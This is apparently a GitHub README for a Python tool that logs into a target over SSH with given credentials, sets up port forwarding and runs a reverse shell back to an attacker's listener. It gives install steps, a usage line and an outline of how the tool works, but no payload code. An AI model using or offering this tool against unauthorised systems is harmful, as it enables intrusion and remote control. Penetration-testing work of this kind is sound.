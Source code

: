 # Remote SSH Reverse Shell Executor

> ⚠️ **Disclaimer:** This tool is intended for educational and authorized penetration testing purposes only. Unauthorized access to systems is illegal.

## 📌 Description

A Python script to automate SSH port forwarding and trigger a reverse shell on the target machine via Paramiko. It uses SSH credentials to connect to the remote host, sets up port forwarding, and then executes a reverse shell payload.

---

## ✍️ Author

- **Name:** Uday  
- **X (Twitter):** [@udaypro2008](https://x.com/udaypro2008)  
- **GitHub:** [ExtremeUday](https://github.com/ExtremeUday)  
- **HackTheBox:** ExtremeUday2

---

## ⚙️ Features

- SSH login using username & password
- Port forwarding from remote to local (binds to `localhost:2222`)
- Executes reverse shell back to attacker's machine
- Uses `paramiko` for SSH connection and command execution

---

## 📥 Requirements

- Python 3.x
- `paramiko` module
- `sshpass` installed on system

Install Python dependencies:
```bash
pip install paramiko
sudo apt install sshpass
```
---
## 🚀 Usage
```
python3 ssh_reverse_shell.py -ip <TARGET_IP> -user <USERNAME> -passwd <PASSWORD> -lhost <LOCAL_HOST> -lport <LOCAL_PORT>
```
---

## 📡 How it Works

- Sets up port forwarding from target to your machine via SSH.
- Waits 2 seconds to stabilize the connection.
- Connects to the forwarded port (127.0.0.1:2222) via Paramiko.
- Executes a reverse shell payload targeting your listener.

## 🛡️ Legal Notice

- This project is for educational purposes only. Do not use it on any system without explicit permission. The author is not responsible for any misuse or damage caused by this script.
